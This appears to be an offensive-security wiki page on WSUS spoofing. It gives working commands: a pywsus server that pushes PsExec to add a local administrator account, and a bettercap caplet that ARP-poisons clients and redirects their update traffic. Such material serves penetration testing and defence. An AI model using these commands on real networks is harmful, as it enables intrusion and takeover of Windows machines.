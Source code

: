 # WSUS spoofing

## Theory

WSUS \(Windows Server Update Services\) allow administrators to centralize the management and deployment of Windows updates within their organization network. When first configuring this set of services, the default configuration makes the WSUS use HTTP without any secure layer like SSL/TLS. HTTPS is not enforced by default.

When pulling an update from the WSUS server, clients are redirected to the executable file to download and execute \(which can only be a binary signed by Microsoft\) and obtain a handler named `CommandLineInstallation` that specifies the additional parameters to pass the binary during the update installation. Without HTTPS, the WSUS is vulnerable to Man-in-the-Middle attacks where adversaries can either pose as the update server and send malicious updates or intercept and modify updates sent to the clients.

## Practice

The following command prints the WSUS server the client requests when searching for an update. If the path looks like `http://wsus.domain.local/`, showing the use of HTTP instead of HTTPS, the attacks can be attempted.

```text
reg query HKML\Software\Policies\Microsoft\Windows\WindowsUpdate /v wuserver
```

The WSUS spoofing attack can be conducted as follows

1. Obtain a Man-in-the-Middle position between clients and the update server with [ARP poisoning](../../../active-directory-domain-services/movement/mitm-and-coerced-authentications/arp-poisoning.md).
2. Redirect traffic from `clients -> legitimate WSUS` to `clients -> attacker's WSUS`
3. Have a custom WSUS server running able to send evil updates to clients

In a scenario where the clients and the attacker are on the same subnet, and the update server is on another one, the steps below can be followed. For other scenarios or more info on ARP poisoning, have a look at : [ARP poisoning](../../../active-directory-domain-services/movement/mitm-and-coerced-authentications/arp-poisoning.md).

### Preparing the evil WSUS

The evil WSUS server needs to be started before doing any ARP poisoning. The [pywsus ](https://github.com/GoSecure/pywsus)\(Python\) utility can be used for that matter.

```bash
python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'
```

//TODO : lolbas

### Poisoning and hijacking

Once the WSUS server is up and running, the ARP poisoning attack can start. The best tool to operate ARP poisoning is [bettercap](https://www.bettercap.org/) \(Go\) and for the majority of the scenarios, basic knowledge of the iptables utility is required.

Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.

{% code title="wsus\_spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the WSUS server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_server_ip
set any.proxy.src_port 8530
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 8530

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}

The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

```bash
bettercap --iface $interface --caplet wsus_spoofing.cap
```

### Triggering Windows update

The search for Windows updates can be manually triggered when having access to the target computer by going to `Settings > Update & Security > Windows Update > Check for updates`. 

{% hint style="info" %}
By default, the automatic updates interval is 22 hours \([source](https://docs.microsoft.com/en-us/windows/deployment/update/waas-wu-settings)\).
{% endhint %}

## Alternative attack

Another way of attacking insecure WSUS without having to rely on ARP poisoning but requiring user access to the target machine is explained in the following blogpost : [WSUS Attacks Part 2: CVE-2020-1013 a Windows 10 Local Privilege Escalation 1-Day](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)

## Resources

{% embed url="https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/" %}

